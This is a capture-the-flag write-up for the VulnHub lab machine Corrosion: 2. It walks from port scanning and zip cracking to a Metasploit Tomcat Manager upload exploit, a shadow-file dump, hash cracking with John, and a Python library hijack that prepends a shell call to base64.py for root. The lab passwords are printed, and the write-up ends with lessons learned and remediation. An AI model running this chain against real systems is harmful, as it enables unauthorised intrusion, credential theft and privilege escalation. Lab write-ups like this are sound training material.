



# Corrosion: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.186 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Root Flag** | via Python library hijacking |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/corrosion-2,745/) |

## Attack Summary

nmap → Tomcat on 8080 → dirb `.zip` → backup.zip → fcrackzip → tomcat-users.xml creds → MSF tomcat_mgr_upload → Meterpreter → password reuse (jaye) → `look` reads `/etc/shadow` → john cracks randy's hash → SSH as randy → sudo `randombase64.py` → `base64.py` library hijack → root

## Methodology

1. Network discovery and port scan
2. Directory brute-force on Tomcat
3. Crack password-protected backup zip
4. Exploit Tomcat Manager with discovered credentials
5. Enumerate users and dump shadow via `look` SUID
6. Crack randy's hash with John
7. Python library hijack via sudo script

---

## Step 1: Network Discovery

```bash
netdiscover
nmap -sV 192.168.1.186
```

Open ports:
- **22** — SSH
- **80** — Apache (default page)
- **8080** — Apache Tomcat



---

## Step 2: Enumerate Tomcat

Browse port 8080 — default Tomcat page. Run dirb with zip extension:

```bash
dirb http://192.168.1.186:8080/ -X .php,.zip
```

Finds `backup.zip`. Download it:

```bash
wget http://192.168.1.186:8080/backup.zip
unzip backup.zip
# password required
```



---

## Step 3: Crack the Zip

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
```

Password: `@administrator_hi5`

Extract and read the Tomcat user file:

```bash
unzip backup.zip
cat tomcat-users.xml
```

Credentials: **admin / melehifokivai**


---

## Step 4: Exploit via Tomcat Manager

```bash
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set rhosts 192.168.1.186
set rport 8080
set httpusername admin
set httppassword melehifokivai
exploit
```

Meterpreter session opened.

```bash
cd /home
ls
# users: jaye, randy
su jaye
# password: melehifokivai (reuse)
ls
```



---

## Step 5: Shadow Dump via `look`

User `jaye` has access to a `look` binary. Use it to read `/etc/shadow`:

```bash
./look '' /etc/shadow
```

The empty search string causes `look` to print all lines. Save randy's hash:

```bash
echo 'randy:$6$...' > hash
```

Crack with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Password: **07051986randy**

---

## Step 6: Python Library Hijack

SSH as randy:

```bash
ssh randy@192.168.1.186
```

Check sudo permissions:

```bash
sudo -l
# can run: /usr/bin/python3.8 /home/randy/randombase64.py
cat /home/randy/randombase64.py
# imports base64
```

Locate and patch `base64.py`:

```bash
locate base64
ls -la /usr/lib/python3.8/base64.py
# writable? or use nano to prepend:
```

Add to the top of `/usr/lib/python3.8/base64.py`:

```python
import os
os.system("/bin/bash")
```

Run the sudo script:

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py
id
# uid=0(root)
cat /root/root.txt
```


---

## Lessons Learned

1. **Password-protected zip with weak password** — rockyou trivially cracks `@administrator_hi5`
2. **Tomcat credentials in backup** — backup files containing `tomcat-users.xml` expose privileged access
3. **`look` SUID reads arbitrary files** — `look` with an empty pattern reads entire files including `/etc/shadow`
4. **Python library hijacking via sudo** — if a script imports a user-writable library and runs as root via sudo, the library can be replaced with malicious code
5. **Weak hash password** — `07051986randy` cracks instantly against rockyou

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Weak zip password | Remove backup files from web-accessible paths |
| Tomcat Manager exposed | Restrict manager to localhost; use strong credentials |
| `look` SUID | Remove SUID bit from `look`; it's not needed |
| Writable Python library in sudo path | Use `PYTHONPATH` restrictions in sudoers; audit library permissions |
| Password reuse | Enforce unique passwords per service and user |
